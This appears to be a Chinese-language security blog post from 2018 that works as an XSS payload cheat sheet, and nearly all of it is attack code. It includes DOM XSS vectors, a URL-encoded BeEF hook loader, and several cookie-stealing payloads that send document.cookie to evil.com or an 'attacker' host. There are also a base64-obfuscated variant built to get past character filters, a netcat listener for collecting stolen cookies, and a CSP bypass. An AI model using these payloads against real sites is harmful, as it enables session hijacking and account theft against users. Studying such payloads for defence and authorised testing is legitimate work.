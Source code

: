 ```yaml
---
layout: post
title:  XSS-Payload+姿势
noToc: true
date:   2018-12-18 09:30:00 +0800
tags: WEB安全 XSS
cover: '../assets/oauth.png'
---
```

### XSS-Payload+姿势

**0x1:XSS**

```html
btoa('<script>alert("xss")</script>')
"PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4="
btoa('<script>alert("xss")</script>1')
"PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4x"
```

**0x2:基于POST的XSS**
如果遇到无法将基于POST的XSS转换为GET请求的情况(可能目标服务器上禁用了GET请求)，试试CSRF。

**0x3:DOM XSS**

```html
<target.com>/#<img/src/onerror=alert("XSS")>
beef的hook，urlencode

<target.com>/#img/src/onerror=$("body").append(decodeURIComponent('%3c%73%63%72%69%70%74%20%73%72%63%3d%68%74%74%70%3a%2f%2f%3c%65%76%69%6c%20%69%70%3e%3a%33%30%30%30%2f%68%6f%6f%6b%2e%6a%73%3e%3c%2f%73%63%72%69%70%74%3e'))>
#<img/src="1"/onerror=alert(1)>
#><img src=x onerror=prompt(1);>
```

**0x5:偷Cookie**

```html
<img/src/onerror=document.location="http://evil.com:8090/cookiez.php?c="+document.cookie>
Blacklist bypass:
```

**0x6:过滤了`//,:,",<`和`>`**

```php+HTML
btoa('document.location="http://evil.com:8090/r.php?c="+document.cookie')
payload:

eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9ldmlsLmNvbTo4MDkwL3IucGhwP2M9Iitkb2N1bWVudC5jb29raW
```

**0x7:另外一个**：

```html
<script>new Image().src="http://evil.com:8090/b.php?"+document.cookie;</script>
比较不错的一个payload：

<svg onload=fetch("//attacker/r.php?="%2Bcookie)>
```

**0x8:比较不错的一个payload**：

```
<svg onload=fetch("//attacker/r.php?="%2Bcookie)>
```

nc 监听：

nc -lvp 8090

**0x9:常用的payload**

```html
svg/onload
'-alert(1)-'
eval(atob('YWxlcnQoMSk='))
<iMg SrC=x OnErRoR=alert(1)>
<div onmouseover="alert('XSS');">
</Textarea/</Noscript/</Pre/</Xmp><Svg /Onload=confirm(document.domain)>
x@x.com<--`<img/src=` onerror=alert(1)> --!>
""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]][(''+{})[5]+(''+{})[1]+((""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]])+"")[2]+(!1+'')[3]+(!0+'')[0]+(!0+'')[1]+(!0+'')[2]+(''+{})[5]+(!0+'')[0]+(''+{})[1]+(!0+'')[1]](((!1+"")[1]+(!1+"")[2]+(!0+"")[3]+(!0+"")[1]+(!0+"")[0])+"(1)")()
oNcliCk=alert(1)%20)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>%5Cx3csVg/<img/src/o
CSP BYPASS
script-src self: <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

